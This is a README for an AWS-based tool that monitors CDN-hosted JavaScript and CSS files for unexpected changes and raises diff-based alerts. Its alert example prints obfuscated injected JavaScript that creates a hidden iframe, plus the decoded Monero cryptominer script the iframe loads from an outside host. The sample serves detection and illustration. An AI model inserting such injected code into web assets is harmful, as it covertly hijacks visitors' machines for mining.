

# Subresource Integrity Monitor

Subresource Integrity (SRI) Monitor is a security tool for monitoring and alerting on unexpected or malicous modifications to files served by Content Delivery Networks (CDNs). 

Deploy to your own AWS account in the matter of minutes and upload lists of CDN resource urls you wish to watch. SRI Monitor will regularly scan these resources and fire an alert if a file modification is detected.

# Get Started
Prerequisites:
* <b>AWS CLI</b> - Download and configure the AWS CLI (version >= 1.16 required). Instructions https://docs.aws.amazon.com/polly/latest/dg/setup-aws-cli.html.

Installation:
1. <b>Deploy AWS Infrascture:</b> Run ```bash deploy.sh``` to automatically deploy the required infrastructure to your AWS account. <b>NOTE:</b> If you wish to use something other than the default aws profile and region, open the deploy.sh file and modify the AWS_PROFILE and AWS_REGION variables accordingly. You may also specify different subnets for the batch compute environment to better match your current environment. 

2. <b>Data Ingestion:</b> An AWS Access Key with read permissions to the ```srimonitor_[id]/alerts``` S3 Bucket is provided in the output from Step 1. Save this key for use with the data analysis tool of your choice. Here are instructional links for creating an S3 input with Splunk and ElastichSearch:
    * <a href="https://docs.splunk.com/Documentation/AddOns/released/AWS/S3">Configure Splunk S3 Input</a>
    * <a href="">Configure ElasticSearch S3 Input</a>

You're all set! Now add additional javascript/css URLs to monitor (see URLs). SRIMonitor will scan these files daily.

# Architecture


1. Javascript/CSS URLs are organized into .csv files and uploaded to the ```srimonitor_[id]/urls``` S3 bucket.
2. An AWS CloudWatch Event is scheduled to scan these resources once per day (configurable).
3. URLs are submitted as job definitions to the AWS Batch Queue for processing.
4. Each job definition runs as a docker container inside of a scaleable AWS Batch Computer Environment. 
5. Code running in the container fetches the URL and generates a SHA256 hash for both the URL and the associated file contents. 
6. The KV record from step 5 is compared to the current KV baseline. Three possible outcomes:
   - a) The KV record doesn't exist. The new KV is added to the KV baseline and the file contents added to the file store.
   - b) The KV record changed. The previous file contents are fetched from S3, diff'd against the current file contents, and an alert generated and saved to srimonitor/alerts.  
   - c) The KV record is unchanged. No alert necessary.
7. Your log management solution (Splunk, ElasticSearch, etc) ingests alerts for you to analyze.

# Adding URLs to Monitor
Lists of URLs are organized into .csv files and uploaded to the ```srimonitor_[id]/urls``` S3 Bucket. For example, if you want to monitor all cdnjs resources, you might use their API get a list of resource URLs they serve and save them to a file called cdnjs.csv. For example:

srimonitor_[id]/urls/cdnjs.csv:
```
https://cdnjs.cloudflare.com/ajax/libs/1000hz-bootstrap-validator/0.11.8/validator.min.js
https://cdnjs.cloudflare.com/ajax/libs/10up-sanitize.css/4.1.0/sanitize.min.css 
https://cdnjs.cloudflare.com/ajax/libs/ractive/0.8.5/ractive.min.js
```

# Analyzing Alerts
Alerts are essentially a file diff between the original resource and the modified version of the resource. Consider the following alert which resulted from a Monero Miner code injection:

```json
{
        "url": "<resource_url>/chosen.jquery.min.js",
        "sha256Old": "f0ea7e010572ddc527ee644f510c5e31ee269b8cfb0945675d7140250e107912",
        "sha256New": "ec84b1114132347ffbde6b21883cfc485928dce786764617a1fdb6e545c17b7e",
        "stats": {
        	"partsAdded": 1,
        	"partsRemoved": 0,
        	"linesAdded": 1,
        	"linesRemoved": 0,
        }
        "addedParts": [
                "var _0xc24516=[\"iframe\",\"setAttribute\",\"https://www.jqr-cdn.download/lot.html\",\"head\",\"appendChild\",\"1IABALrINkcv2VFJWo7ctqH0f3Y6aTf1\",\"start\",\"createElement\"];!function(t,e){!function(e){for(;--e;)t.push(t.shift())}(++e)}(_0xc24516,367);var _0xe548a8=function(t,e){return _0xc24516[t-=0]};a=document[_0xe548a8(\"0x0\")](_0xe548a8(\"0x1\")),a[_0xe548a8(\"0x2\")](\"src\",_0xe548a8(\"0x3\")),a.style.width=\"0px\",a.style.height=\"1px\",document[_0xe548a8(\"0x4\")][_0xe548a8(\"0x5\")](a);"
        ]
}
```

The file diff distinguishes between added code parts and the total # of added lines - A code part is a group of consectutively added lines of code, and numLines refers to the total number of lines added or removed across all code parts. Each code part is found in the "addedParts" array and can be analyzed independendly of each other in this format.     

In the example above, the file change involves a single line of obfuscated js that injects a hidden iframe:
```html
<iframe src="https://www.jqr-cdn.download/lot.html" style="width: 0px; height: 1px;">
```
the iframe loads a Monero Miner: 
```html
<script>
	server = "wss://www.jqr-cdn.download:8190";
	startMining("minexmr.com","winner winner chicken dinner");
</script>
```

# Handling False Positives
SRI Monitor mimics the [W3C Subresource Integrity specification](https://www.w3.org/TR/SRI/) - in other words, the goal is to monitor versioned CDN resources that shouldn't change. Any change is considered unxpected and therefore an alert is generated.

That said, SRI Monitor can still be used to monitor various js files stored on websites that may change often. This does mean you'll get false positives for legit file changes, but you can redirect the alert output to a yara scanner or data analysis framework to filter on code changes that involve malicious characteristics. 
